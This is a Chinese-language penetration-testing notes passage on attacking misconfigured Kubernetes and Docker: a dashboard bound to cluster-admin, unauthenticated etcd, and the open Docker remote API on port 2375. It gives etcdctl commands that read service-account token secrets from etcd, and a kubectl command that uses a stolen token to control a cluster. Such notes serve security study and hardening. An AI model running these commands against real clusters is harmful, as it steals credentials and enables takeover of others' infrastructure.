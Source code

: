 但有些开发者为了方便或者在测试环境中会为 Kubernetes-dashboard 绑定 cluster-admin 这个 ClusterRole（cluster-admin 拥有管理集群的最高权限）。

## etcd

端口2379，可以获取 Kubernetes 的认证鉴权 token 用于控制集群，攻击机器需要安装etcd

/etc/Kubernetes/manifests/etcd.yaml 

相关配置

```
#是否证书校验
--client-cert-auth

#0.0.0.0
listen-client-urls
```

如果有证书的话

```
export ETCDCTL_CERT=/etc/kubernetes/pki/etcd/peer.crt 
export ETCDCTL_CACERT=/etc/kubernetes/pki/etcd/ca.crt 
export ETCDCTL_KEY=/etc/kubernetes/pki/etcd/peer.key
```

 先读取用来访问 apiserver 的 token

```
./etcdctl --endpoints=https://127.0.0.1:2379/ get --keys-only --prefix=true "/" | grep /secrets/kube-system/clusterrole
./etcdctl --endpoints=https://127.0.0.1:2379/ get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-fltzp 
```

利用 token 我们可以通过 apiserver 端口 6443 控制集群：

如 

```
kubectl  --insecure-skip-tls-verify -s https://xx:6443 --token="xx" get ns -o wide
```

## docker remote api

**发现之前调试Java的时候自己打开了，可怕**

Docker Engine API 是 Docker 提供的基于 HTTP 协议的用于 Docker 客户端与 Docker 守护进程交互的 API，Docker daemon 接收来自 Docker Engine API 的请求并处理，Docker daemon 默认监听 2375 端口且未鉴权，我们可以利用 API 来完成 Docker 客户端能做的所有事情。

Docker daemon 支持的socket 有 unix、tcp、fd。

默认监听 unix:///var/run/docker.sock

打开tcp socket的方法很多，比如修改Docker配置文件如 `/usr/lib/systemd/system/docker.service`

之后依次执行 `systemctl daemon-reload`、`systemctl restart docker` 便可以使用 `docker -H tcp://[HOST]:2375 【加上命令】`这种方式控制目标 docker
